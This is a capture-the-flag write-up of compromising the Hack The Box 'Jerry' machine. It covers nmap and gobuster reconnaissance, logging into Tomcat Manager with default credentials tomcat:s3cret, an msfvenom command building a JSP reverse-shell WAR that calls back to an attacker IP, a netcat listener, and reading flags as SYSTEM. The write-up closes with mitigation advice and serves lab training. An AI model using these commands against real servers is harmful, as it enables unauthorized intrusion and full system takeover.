- **Platform:** Hack The Box
- **Box Name:** Jerry
- **Difficulty:** Easy
- **Operating System:** Windows
- **Date Completed:** 13, July, 2025
## 1. Introduction
This document details the steps taken to successfully compromise the "Jerry" machine on Hack The Box. This write-up will cover the initial reconnaissance, vulnerability exploitation, and privilege escalation techniques used to gain full control of the system.
### 2. Initial Reconnaissance - Nmap Scan

The first step in our penetration testing methodology involved conducting a comprehensive network scan using Nmap to identify open ports, services, and their respective versions running on the target machine. This initial information is crucial for understanding the attack surface and pinpointing potential vulnerabilities.
The following Nmap command was executed:

```bash
nmap -sV -sC 10.10.10.95
```


This command performed a service version detection (`-sV`) and ran default Nmap scripts (`-sC`) against the target IP address `10.10.10.95`.

The results of the Nmap scan revealed the following open port and service:

- **Port 8080/tcp:** Identified as `http` running **Apache Tomcat/Coyote JSP engine 1.1**. The HTTP title was "Apache Tomcat/7.0.88".

This information immediately highlights Apache Tomcat as a primary target for further investigation, given its common use in web applications and the potential for known vulnerabilities in specific versions.
### 3. Web Interface Access - Apache Tomcat

Following the Nmap scan, which identified Apache Tomcat running on port 8080, the next logical step was to access the web interface through a web browser. Navigating to `http://10.10.10.95:8080` revealed the default Apache Tomcat welcome page.



The presence of the default Tomcat page, specifically version 7.0.88, confirmed that the service was running as expected and provided visual confirmation of the target's web server configuration. This also presented potential avenues for further enumeration, particularly regarding the "Manager App" and "Host Manager" links, which are often protected by default credentials or susceptible to known vulnerabilities.

### 4. Directory Enumeration - Gobuster

To discover hidden directories and files on the Apache Tomcat web server, Gobuster was employed for directory brute-forcing. This step is crucial for uncovering potentially sensitive areas or misconfigured applications that might not be directly linked from the main page.

The following command was executed:

```bash
gobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/dirb/common.txt
```



This command instructed Gobuster to:

- `dir`: Perform directory enumeration.
- `-u http://10.10.10.95:8080`: Target the Apache Tomcat web server on port 8080.
- `-w /usr/share/wordlists/dirb/common.txt`: Use the `common.txt` wordlist for brute-forcing directory names.

The Gobuster scan yielded several interesting directories, indicated by their HTTP status codes (200 OK or 302 Found). Notably, the following directories were identified:



- `/docs` (Status: 302)
- `/examples` (Status: 302)
- `/host-manager` (Status: 302)
- `/manager` (Status: 302)

The `manager` and `host-manager` directories are particularly significant as they often lead to administrative interfaces for Apache Tomcat, which, if misconfigured or using default credentials, could provide a direct path to compromise.
### 5. Accessing the Tomcat Manager and Identifying Credentials

Upon attempting to access the `/manager` directory, we encountered a 403 Access Denied error, indicating that authentication was required. However, the error page itself provided crucial information regarding the configuration and potential default credentials.



The relative path on the webserver that leads to the Web Application Manager is: `manager/html`.

The error message explicitly showed an example configuration for adding a user to the `manager-gui` role, which included a default username and password combination. This is a common misconfiguration in Tomcat installations.



The valid username and password combination for authenticating into the Tomcat Web Application Manager was found to be: `tomcat:s3cret`.
___
### 6. Exploiting the Tomcat Manager - WAR File Deployment

With the successfully identified credentials (`tomcat:s3cret`), we were able to log into the Apache Tomcat Web Application Manager interface. This interface provides functionalities such as deploying new web applications.

A key feature of the Tomcat Manager is the ability to upload and deploy web application archive (WAR) files. A **.war** file is a standard JAR file used to package web applications for deployment on a Java EE application server such as Tomcat. This functionality is critical for gaining a foothold, as it allows for the deployment of custom web applications, including those designed to establish a reverse shell.


___
### 7. Generating and Deploying a Reverse Shell

To obtain a reverse shell and gain initial access to the system, we leveraged `msfvenom` to generate a malicious `.war` file containing a JSP reverse shell payload. This payload, when executed on the Tomcat server, would connect back to our attacking machine.

The following `msfvenom` command was used:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=9001 -f war > shell.war
```



- `-p java/jsp_shell_reverse_tcp`: Specifies the payload as a Java Server Pages (JSP) reverse TCP shell.
- `LHOST=10.10.14.9`: Sets the local host IP address (our attacking machine's IP on the VPN).
- `LPORT=9001`: Sets the local port on which our listener will be waiting.
- `-f war`: Specifies the output format as a `.war` file.
- `> shell.war`: Redirects the output to a file named `shell.war`.
Before deploying the `shell.war` file, a Netcat listener was set up on our attacking machine to catch the incoming reverse shell connection.

```bash
nc -lvnp 9001
```


- `nc`: Netcat command.
- `-l`: Listen mode.
- `-v`: Verbose output.
- `-n`: Numeric-only IP addresses (no DNS lookups).
- `-p 9001`: Listen on port 9001.

Finally, the generated `shell.war` file was uploaded through the Apache Tomcat Web Application Manager interface. Once uploaded, the web application was automatically deployed by Tomcat, triggering the reverse shell connection back to our Netcat listener.



### 8. Gaining Initial Access and Retrieving Flags

Upon successful deployment of the `shell.war` file and accessing the deployed web application (e.g., `http://10.10.10.95:8080/shell/`), our Netcat listener caught an incoming connection, granting us a reverse shell on the target machine. A quick `whoami` command confirmed that we had obtained `nt authority\system` privileges, indicating root-level access.



From this privileged shell, we navigated the file system to locate the flags. Using Windows commands, we moved to the `C:\Users\Administrator\Desktop\flags` directory.

```bash
cd C:\Users\Administrator\Desktop\flags
```


Listing the contents of the directory revealed a file named `2 for the price of 1.txt`. To view the content of this file and retrieve the flags, the `type` command was used:

```bash
type "2 for the price of 1.txt"
```



This action successfully displayed the contents of the file, which contained both the user and root flags. With both flags obtained, the "Jerry" Hack The Box machine was fully compromised.
### 9. Conclusion and Mitigation

The "Jerry" Hack The Box machine provided an excellent learning experience in exploiting common web application vulnerabilities. The compromise relied primarily on identifying a misconfigured Apache Tomcat instance with default credentials, which allowed for the deployment of a malicious WAR file to gain a highly privileged reverse shell. This scenario highlights the critical importance of secure configuration management and the dangers of using default settings in production environments.

To prevent similar compromises, the following mitigation strategies are recommended:

- **Change Default Credentials:** Immediately change default usernames and passwords for all administrative interfaces, including the Apache Tomcat Manager. Use strong, unique, and complex passwords.
- **Restrict Access to Manager Applications:** Limit access to the Tomcat Manager and Host Manager applications to trusted IP addresses only. This can be done by configuring IP-based access restrictions within Tomcat's `conf/tomcat-users.xml` or using firewall rules.
- **Remove Unused Applications:** If the Tomcat Manager and Host Manager applications are not strictly necessary for daily operations, consider uninstalling or disabling them to reduce the attack surface.
- **Regular Patching and Updates:** Ensure that Apache Tomcat and all underlying operating system components are regularly patched and updated to the latest stable versions to protect against known vulnerabilities.
- **Principle of Least Privilege:** Run services with the minimum necessary privileges. In this case, the Tomcat service was running as `nt authority\system`, which granted immediate root access upon compromise. Configuring Tomcat to run with a less privileged user account would significantly limit the impact of a successful exploit.
- **Security Audits and Penetration Testing:** Conduct regular security audits and penetration tests to identify and remediate vulnerabilities before they can be exploited by malicious actors.


